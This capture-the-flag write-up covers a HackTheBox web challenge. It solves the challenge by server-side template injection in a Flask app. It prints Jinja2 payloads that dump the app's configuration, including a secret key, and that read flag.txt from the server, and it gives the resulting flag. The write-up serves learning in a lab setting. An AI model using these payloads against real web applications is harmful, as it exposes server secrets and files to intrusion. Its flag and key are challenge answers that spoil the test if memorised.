



# Trial by Fire

**Creator:** makelaris

**Description:** As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass.

With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategic mastery will endure the Trial by Fire and claim their place among the legends of Eldoria.

**Category:** Web

**Difficulty:** very easy

**Points:** 925

**Solves:** 754

**File:** web_trial_by_fire.zip

## Solution 

Upon opening the site, you're prompted to enter your name:


While exploring the page source and interactions, I discovered that pressing the up arrow key revealed a hidden button labeled "Ancient Capture Device":
 

Clicking it displayed the following message: 
```
You brandish the Ancient Capture Device with defiant resolve!
No ordinary device can capture an elder!
A glowing rune appears: '{{ url_for.__globals__ }}' unlocks the ancient secrets!
Ancient whispers: 'Only Template Scrolls bend fate!'
The Ancient Capture Device pulses, but the Fire Drake remains free.
```


This hinted at SSTI (Server-Side Template Injection) — particularly with `{{ url_for.__globals__ }}` being exposed.

To test for SSTI, I first tried a simple payload `{{7*7}}`

But this didn't work.  After a few other attempts, I tried: `{{config.items()}}` 


This was successful and exposed Flask app configuration data in the battle report output:
```
dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', '1c01dfd4f2ec8949be106bc7d61829d8320f4cdf1b5035bb0a33abbc4abbe15d9c644f88eb917a275bea938fb07b0308ac8623ee7ac3ba0b2df3a84d6413dd5c782c3a835f'), ('SECRET_KEY_FALLBACKS', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('TRUSTED_HOSTS', None), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_PARTITIONED', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('MAX_FORM_MEMORY_SIZE', 500000), ('MAX_FORM_PARTS', 1000), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093), ('PROVIDE_AUTOMATIC_OPTIONS', True)])
```

Using the following payload as the name input:`{{get_flashed_messages.__globals__.__builtins__.open("flag.txt").read()}}`

Next I tried to see if I could read the file by putting this in as the name:

This successfully printed the contents of flag.txt, giving me the final flag:`HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_4b56f3d3a4bab0ed0f02b1621305439e}`


